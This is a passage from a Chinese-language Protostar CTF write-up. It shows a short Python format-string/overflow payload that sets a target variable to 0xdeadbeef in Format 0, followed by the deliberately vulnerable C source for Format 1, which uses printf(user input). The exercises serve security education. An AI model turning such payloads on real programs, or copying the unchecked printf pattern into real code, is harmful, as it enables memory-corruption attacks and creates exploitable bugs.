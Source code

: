 `sprintf()`会将`string`指向的内容赋给`buffer`，但并不检查其是否超过64B。所以我们可以将`argv[1]`设置为64个字符+0xdeadbeef，这样`target`就会被覆写为0xdeadbeef，函数会进入if分支，输出`you have hit the target correctly :)`。

题目要求输入小于10B，所以采用格式化字符串的方式设计攻击脚本。

```python
#　format0.py
buffer = "%64c"
target = "\xef\xbe\xad\xde"
print buffer + target
```



<div STYLE="page-break-after: always;"></div>

# Protostar: Format 1

This level shows how format strings can be used to modify arbitrary memory locations.

> **Hints**
>
> - objdump -t is your friend, and your input string lies far up the stack :)

This level is at `/opt/protostar/bin/format1`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
    printf(string);

    if(target) {
        printf("you have modified the target :)\n");
    }
}

int main(int argc, char **argv)
{
    vuln(argv[1]);
}
```



## 攻击目标
